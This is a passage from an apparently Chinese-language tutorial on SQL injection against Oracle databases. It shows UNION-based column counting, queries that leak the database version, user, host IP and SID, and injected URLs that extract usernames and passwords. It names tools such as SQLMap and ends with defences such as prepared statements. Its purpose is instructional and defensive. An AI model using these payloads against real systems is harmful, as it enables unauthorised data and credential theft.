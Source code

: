 ### 二、UNION查询
#### 1.获取列的总数          
Oracle规定，每次查询时后面必须跟表名称，因此有union select null,null,null from dual （dual是Oracle的虚拟表）         
Oracle是强类型的数据库，不像MySQL那样可以直接union select 1,2,3，因此一般用null代替           
#### 2.获取敏感信息  
```sql
当前用户权限：select * from session_roles
当前数据库版本：select banner from sys.v_$version where rownum=1
服务器出口IP：用utl_http.request可以实现
服务器监听IP：select utl_inaddr.get_host_address from dual
服务器操作系统：select member from v$logfile where rownum=1
服务器sid：select instance_name from v$instance
当前连接用户：select SYS_CONTEXT ('USERENV','CURRENT_USER') from dual
```

#### 3.获取数据库表及其内容
在得知表的列数之后，可以通过查询元数据的方式查询表名称、列，然后查询数据，              
http://www.example.com/news.jsp?id=1 union select username,password,null from users --          
在查询数据时同样要注意数据类型，否则无法查询，这只能一一测试 (更换username的位置)：       
http://www.example.com/news.jsp?id=1 union select username,null,null from users --        
在得知列数之后，可以通过暴力猜解的方式来枚举表名称：       
http://www.example.com/news.jsp?id=1 union select null,null,null from tableName --           


### 三、Oracle中包的概念       
Oracle包可以分为两部分，一部分是包的规范，相当于Java中的接口，另一部分是包体，相当于Java里接口的实现类，实现了具体的操作。          
在Oracle中，存在许许多多的包，如执行系统命令、备份、I/O操作等          
例如，UTL_HTTP，该包提供了对HTTP的一些操作，比如 SELECT UTL_HTTP.REQUEST('http://www.baidu.com') FROM DUAL           
执行这条SQL语句，将返回baidu.com的HTML源码。         

再如，以Oracle读写文件为例，在Oracle中提供了包UTL_FILE专门用来操作I/O              

## 常用测试工具：
SQLMap,Pangolin,Havij等

SQLMap我看了下是开源的，基于python2.6或者2.7，可以用他来判断url是否可以被sql注入，如果可以，可以通过sqlmap知道数据库的类型，有哪些库
哪些表，哪些字段等等信息
http://sqlmap.org/

 

## 防止sql注入
1.严格的数据类型，        
java。C#等强类型语言可以完全忽略数字型注入，而PHP ASP则呀注意        

2.特殊字符转义。         
3.使用预编译语言。           
java就提供了预编译语言，提供了第三方接口与数据库交互，如statement，callablestatement，preparedstatement等        
所以java尽量不要使用冬天拼接的sql会失去他的有效性。          

4.框架技术            
如hibernate，mybatis等成熟的框架都有较高的安全性          
hibernate的HQL语言，也最好不要用sql凭借的方式去查询。         

5存储过程   
虽然相对安全性较高，但是还是有一定的安全风险。     

